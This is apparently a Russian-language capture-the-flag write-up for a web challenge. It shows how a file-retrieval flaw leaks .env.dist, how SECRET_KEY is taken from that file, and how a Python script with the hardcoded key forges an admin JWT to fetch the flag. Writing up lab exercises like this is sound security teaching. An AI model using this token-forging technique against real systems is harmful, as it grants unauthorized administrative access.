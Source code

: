 #hard #web #JWT #FS

#### Исходники

- Архив с исходниками сайта:  ![brethren.tar.gz](./assets/brethren.tar.gz)

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![](./assets/image-9.webp)

![](./assets/image-10.webp)


![](./assets/image-2.webp)

![](./assets/image-3.webp)

![](./assets/image-4.webp)

![](./assets/image-5.webp)

![](./assets/image-6.webp)

![](./assets/image-7.webp)

![](./assets/image-8.webp)


